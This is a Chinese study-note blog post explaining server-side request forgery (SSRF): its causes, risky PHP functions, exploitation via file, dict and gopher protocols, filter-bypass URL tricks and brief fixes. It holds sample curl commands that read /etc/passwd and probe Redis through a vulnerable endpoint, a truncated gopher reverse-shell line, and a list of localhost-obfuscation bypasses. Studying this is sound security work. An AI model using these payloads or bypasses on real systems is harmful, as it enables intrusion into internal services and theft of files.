 title: SSRF服务器端请求伪造
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-07-07 15:50:00
---
#### 概述
SSRF是一种由攻击者构造形成由服务端发起请求的一个安全漏洞
SSRF攻击的目标一般是作为跳板机访问从外网无法访问的内部系统
（正是因为它是由服务端发起的，所以它能够请求到内网）
<a href="https://smms.app/image/daoBFcPQqzvXkpy" target="_blank"><img src="https://s2.loli.net/2023/07/07/daoBFcPQqzvXkpy.png" width="500" /></a>

#### 原理
大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制
因此可以从指定URL地址获取网页完本内容、加载指定地址的图片、下载等。

#### 利用价值
利用一个可以发起网络请求的服务当作跳板来攻击内部其他服务

#### 危害
1. 探测内网信息,用协议探`ftp%26ip={ip}%26port={port}`（dict协议）
2. 攻击内网或本地其他服务（比如溢出）
3. 穿透防火墙
4. 对内网web应用进行指纹识别，通过访问应用存在的默认文件实现
5. 利用file协议读取本地文件
6. 利用Redis未授权访问，HTTP CRLF注入
7. DOS攻击（请求大文件，始终保持连接keep alive always）等等
8. ophergopher协议/gopher协议访问，反弹shell

#### 漏洞出现点
1. 能够对外发起网络请求的地方
2. 请求远程服务器资源的地方
3. 数据库内置功能
4. 邮件系统
5. 文件处理
6. 在线处理工具
**举几个例子：**
1. 在线识图，在线文档翻译，分享，订阅等
2. 根据远程URL上传，静态资源图片等
3. 数据库的比如mongodb的copyDatabase函数
4. 邮件系统就是接收邮件服务器地址这些地方。
5. 文件就找ImageMagick，xml这些。
6. 从URL关键字（source,share,link,src,imageurl,target等）

#### SSRF漏洞相关函数和类
file_get_contents()将整个文件或一个url所指向的文件读入一个字符串中。
readfile()输出一个文件的内容。
fsockopen()打开一个网络连接或者一个Unix 套接字连接。
curl_exec()初始化一个新的会话，返回一个cURL句柄，供curl_setopt()，curl_exec()和curl_close() 函数使用。
fopen()打开一个文件文件或者 URL。

#### 漏洞利用
1. http协议访问`url=http://127.0.0.1/1.txt`
2. [PHP伪协议访问](https://www.cnblogs.com/endust/p/11804767.html)<a href="https://smms.app/image/IHa9JMnTCySpNWO" target="_blank"><img src="https://s2.loli.net/2023/07/07/IHa9JMnTCySpNWO.png" width="600" /></a>
3. Gopher协议
4. FastCGI协议
5. Redis协议
```
# 利用file协议查看文件
curl -v 'http://sec.com/ssrf.php?url=file:///etc/passwd'

# 利用dict探测端口
curl -v 'http://sec.com/ssrf.php?url=dict://127.0.0.1:6379'

# 利用gopher协议反弹shell
curl -v 'http://sec.com/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379/_....'
```

#### 绕过姿势
1. 利用HTTP基本身份认证的方式绕过`http://example.com@127.0.0.1`
2. 利用IP地址的省略写法绕过,`http://123.254.34.254>>http://[::123.254.34.254]`
3. DNS解析 `http://127.0.0.1.xip.io/` 可以指向任意ip的域名：`xip.io`
4. 利用八进制IP地址绕过,利用十六进制IP地址,绕过利用十进制的IP地址[**绕过**](https://tool.520101.com/wangluo/jinzhizhuanhuan/)
5. `http://127.1/a.txt` 或者 `http://0/a.txt`
6. file_get_contents()函数遇到了不认识的伪协议头 `httpsssss://` ，就会将他当做文件夹，然后再配合目录穿越即可读取文件

#### 其他各种指向127.0.0.1的地址
```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

#### 修复
1.地址做白名单处理
2.域名识别IP 过滤内部IP
3.校验返回的内容对比是否与假定的一致

#### CSRF、SSRF和重放攻击有什么区别？
- CSRF是跨站请求伪造攻击，由客户端发起
- SSRF是服务器端请求伪造，由服务器发起
- 重放攻击是将截获的数据包进行重放，达到身份认证等目的